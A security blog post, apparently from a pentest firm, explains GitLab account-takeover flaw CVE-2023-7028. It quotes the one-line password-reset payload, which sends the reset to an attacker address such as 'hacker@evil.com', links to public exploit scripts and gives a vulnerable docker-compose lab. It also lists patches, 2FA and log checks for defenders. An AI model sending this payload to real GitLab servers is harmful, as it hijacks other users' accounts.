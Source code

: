 ```yaml
---
title: "How to compromise Gitlab accounts with CVE-2023-7028 vulnerability"
description: "This article details how GitLab is vulnerable to the CVE-2023-7028 flaw and why it should not be publicly exposed."
date: 2024-01-19T17:32:30+01:00
draft: false
images: [/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png]
featuredImage: "/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png"
featuredImagePreview: "/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png"
tags: ["Pentest", "Exploit", "Gitlab"]
---
```


# 😮 Publicly exposing GitLab in 2024: too risky?

<br>
<br>

Is exposing one's own GitLab a good security practice? Well, you will see that it is not.

2024 starts strongly, giving good reasons not to expose this service on the Internet (but rather to host it behind a VPN).

## A tense start to the year

On January 11, 2024, GitLab, the renowned community platform, released an important announcement concerning new versions 16.7.2, 16.6.4, and 16.5.6 for GitLab Community Edition (CE) and Enterprise Edition (EE).

Two vulnerabilities are explained:

1. The CVE-2023-7028 vulnerability :
   - **CVSS score of 10/10** 😮
   - It allows account takeover via password reset without user interaction.

1. The CVE-2023-5356 vulnerability : 
   - **CVSS score of 9.6/10** 😟
   - It allows a user to abuse Slack/Mattermost integrations to execute slash commands as another user.
  
## In brief

The most problematic vulnerability is the first one: **CVE-2023-7028**.

Far from harmless, it is very problematic:

- It allows resetting the password of any user.
- The vulnerability is exploitable without an account.
- The victim's email must be known.
- The payload consists of a single line: `user[email][]=my.target@example.com&user[email][]=hacker@evil.com`

The second vulnerability is just as serious but less easily exploitable.

## Exploitation

To exploit this vulnerability, the PoC is really very simple:


```sh
user[email][]=valid@email.com&user[email][]=attacker@email.com
```

`valid@email.com` is the victim's address
`attacker@email.com` is the attacker's address

GitLab creates confusion, allowing an attacker to overwrite the victim's email with their own 😮!

More specifically, a change was made in version 16.1.0 to allow users to reset their passwords using a secondary email address. The vulnerability results from a bug in the email verification process.

👉 More details on GitLab's blog: https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/#account-takeover-via-password-reset-without-user-interactions

## Recommended actions

GitLab recommends the following actions:

1️⃣ Immediate Update: It is strongly advised to update GitLab to the latest patched version. For users who have not yet updated, GitLab recommends moving directly to versions 16.7.3, 16.6.5, 16.5.7 or later.

2️⃣ Enable Two-Factor Authentication (2FA): GitLab advises activating 2FA for all accounts. This security measure prevents the exploitation of this vulnerability.

3️⃣ Integrity Verification: Self-managed clients are advised to examine their logs to detect any exploitation attempts of these vulnerabilities.

Example:

- Check the `gitlab-rails/production_json.log` file to ensure that no request pointing to the /users/password route contains multiple email addresses.
- Check the `gitlab-rails/audit_json.log` file to ensure that the meta.caller_id field of PasswordsController#create and target_details do not contain multiple email addresses.
- 
## Automation

Many PoCs are available online to automate the exploitation of this vulnerability:

- Made by a talented French developer: https://github.com/Vozec/CVE-2023-7028
- https://github.com/V1lu0/CVE-2023-7028
  
## Vulnerable Docker

For the curious, below is a vulnerable docker compose to practice this vulnerability:

```yaml
version: '3.6'
services:
  gitlab:
    image: 'gitlab/gitlab-ce:16.1.4-ce.0'
    restart: always
    hostname: 'gitlab.domain.com'
    environment:
      GITLAB_OMNIBUS_CONFIG: |
        external_url 'http://gitlab.domain.com'
        gitlab_rails['smtp_enable'] = true
        gitlab_rails['smtp_address'] = "smtp_address"
        gitlab_rails['smtp_port'] = 587
        gitlab_rails['smtp_user_name'] = "smtp_user_name"
        gitlab_rails['smtp_password'] = "smtp_password"
        gitlab_rails['smtp_domain'] = "domain.com"
        gitlab_rails['smtp_authentication'] = "login"
        gitlab_rails['smtp_enable_starttls_auto'] = true
    ports:
      - '80:80'
      - '443:443'
      - '22:22'
    volumes:
      - './gitlab/config:/etc/gitlab'
      - './gitlab/logs:/var/log/gitlab'
      - './gitlab/data:/var/opt/gitlab'
```

## Demonstration

A small demonstration below to present the exploitation of the vulnerability:

<video src="/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/exploit.mp4" controls autoplay loop title="Exploiting GitLab with CVE-2023-7028 vulnerability" style="width:100%"></video>

🙏 Patch quickly. Trackflaw is here to help you with this task. Contact us at https://trackflaw.com or by email contact (@) trackflaw.com

## Sources

- https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/#account-takeover-via-password-reset-without-user-interactions